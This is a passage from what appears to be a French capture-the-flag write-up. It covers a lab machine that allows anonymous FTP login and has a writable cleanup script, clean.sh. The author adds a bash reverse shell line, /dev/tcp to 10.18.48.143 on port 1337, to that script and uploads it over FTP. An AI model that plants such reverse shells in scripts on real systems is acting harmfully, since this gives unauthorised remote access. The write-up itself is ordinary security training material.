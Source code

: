 - to_do.txt
    
    ```bash
    $ cat to_do.txt 
    ```
    
    ```txt
    I really need to disable the anonymous login...it's really not safe
    ```
    
- clean.sh
    
    ```bash
    $ cat clean.sh
    ```
    
    ```
    #!/bin/bash
    
    tmp_files=0
    echo $tmp_files
    if [ $tmp_files=0 ]
    then
            echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
    else
        for LINE in $tmp_files; do
            rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
    fi
    ```
    
    > Ce script est un script Bash qui sert à nettoyer les fichiers temporaires stockés dans le répertoire "/tmp" d'un système Linux.
    

Nous allons essayer d'éditer ce script pour ajouter une commande et obtenir un reverse shell :

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.18.48.143/1337 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

Nous allons maintenant pourvoir uploader notre script clean.sh modifié.

```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||9511|)
150 Ok to send data.
100% |********************************************************************************************|   362        6.63 MiB/s    00:00 ETA
226 Transfer complete.
362 bytes sent in 00:00 (5.66 KiB/s)
```
